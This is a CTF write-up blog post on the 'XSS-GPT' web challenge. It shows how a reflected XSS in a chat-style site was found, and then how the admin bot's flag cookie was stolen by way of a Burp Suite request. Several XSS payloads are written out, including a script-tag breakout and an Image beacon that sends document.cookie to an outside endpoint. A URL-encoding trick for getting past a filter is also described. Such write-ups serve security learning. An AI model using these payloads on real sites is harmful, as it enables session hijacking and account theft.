 ```yaml
---
layout: post
title: SKRCTF: XSS-GPT
date: 2023-10-01
categories:
  - CTF WriteUp
---
```


![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-instruction.png){:.align-center}

This is a Web category challenge. From the name of this challenge, we know that this challenge involves exploiting a Cross-Site Scripting (XSS) vulnerability. The instructions said "*I built a chatgpt website*" and "*report to me if you found any bug*". This means that he is the administrator of the website, and if we found an  XSS vulnerability in the website, we need to report it to him. The website :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-webpage.png){:.align-center}

The webpage looks like it's a chat application, which looks a little similar to ChatGPT. Testing this chat application :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-test-webpage.png){:.align-center}

It looks like the website asks for an API key before the user can use this web-based chat application. If we look at the HTML code of this website, we found that we don't need a real OpenAI API key because this website uses a placeholder value `("Bearer None")` for the API key, which is not a valid API key. Try to use `test123` for the API key :

- `http://skrctf.me:4000/?apiKey=test123`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-api-key-failed.png){:.align-center}

The first hint indicates that we should manipulate the URL parameter :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-hint1.png){:.align-center}

This challenge is named "XSS-GPT", so we can focus on finding the XSS vulnerability on this website. Testing a basic XSS attack :

- `<script>alert("basic-xss")</script>`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-test-basic-xss-result.png){:.align-center}

We get an error-like message. However, it's not an error. HTML code :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-test-basic-xss-html.png){:.align-center}

At line 11, the  opening `<script>` tag was used. The tag was then closed by our basic XSS script (`</script>`). Everything after the closing tag will become the content of the website. So we need to add the closing tag (`</script>`) before our XSS script :

- `</script><script>alert("basic-xss")</script>`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-test-basic-xss-success.png){:.align-center}

We successfully triggered a Reflected XSS. This means that we have found a Reflected XSS vulnerability. So we need to report to the admin of the website. There is a button named "*Report Admin*" at the bottom right :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-button.png){:.align-center}

We need to know what this button does (in the HTML code) :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-button-source.png){:.align-center}

It looks like the button executes `reportAdmin()` function. So we need to know what this function does. In the HTML code, before the HTML Style :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-function.png){:.align-center}

In `reportAdmin()` function :

1) **API Key Extraction** : The function extracts the API key from the URL using `const queryParams = URLSearchParams(window.location.search);` and `const apiKey = queryParams.get("apiKey")`.
2) **XHR Request** : It creates an XMLHttpRequest object (`xhttp`) to send a POST request to the "`reportAdmin`" endpoint.
3) **Request Data** : It sends the API key as a parameter in the request body using `xhttp.send("key="+encodeURIComponent(apiKey));`.
4) **Response Handling** : The function listens for the response and displays an alert message with "*Reported to admin!*" if the response status is 200.

The second hint indicates that we need to steal admin's cookie :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-hint2.png){:.align-center}

Under the second hint, we were given a JavaScript file, "*bot.js*" :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-bot-js.png){:.align-center}

The provided JavaScript file appears to be a PhantomJS script. PhantomJS is a **headless web browser scriptable with JavaScript**, often used for automation tasks. So this "*bot.js*" is a piece of PhantomJS script behind the website that acts as "*admin*" (the admin is a bot). The script uses `phantom.adCookie` to set a cookie named '*flag*' with a value of '*this_is_not_the_flag*'. This information indicates that the value of admin's cookie is our flag. So we need to steal the admin's cookie.

We can ease our task with Burp Suite. Intercepting a request :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-foxy.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-intercept.png){:.align-center}

Right-click on Burp Suite > Send to Repeater. Go to the Repeater tab. Now we can modify the request body with our XSS script. First, we need to test if our server endpoint receives a GET request from admin. We can use [Webhook.site](https://webhook.site/) as our server endpoint to monitor any request  :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-webhook.png){:.align-center}

Use the unique URL provided in [Webhook.site](https://webhook.site/) as our server endpoint :

- `</script><script>var i=new Image;i.src="http://our-server-endpoint";</script>`
- [Steal Cookie with Reflected XXS](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md)

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-xss.png){:.align-center}

As we can see, our server endpoint received a GET request from admin :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-xss-triggered.png){:.align-center}

Now, we can add `+document.cookie;` in our XSS script. However, after we inject our XSS script with `+document.cookie;` and get the "*Reported to admin!*" message (which indicates that the injection was successful), our server endpoint no longer receives a GET request from admin. This indicates that there is some kind of input filtering that filters `+document.cookie;`. We can use basic encoding, such as URL encoding. On Burp Suite, highlight `+document.cookie;`, right-click > Convert selection > URL > URL-encode key characters.

- `</script><script>var i=new Image;i.src="http://our-server-endpoint/?"+document.cookie;</script>`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-xss-steal-cookie.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-xss-steal-cookie-success.png){:.align-center}

We successfully steal the admin's cookie!
## Walkthrough

https://drive.google.com/file/d/1-zrxlZRYWRVV7-kFzA0mA6ENO9XpE6HR/view?usp=drivesdk
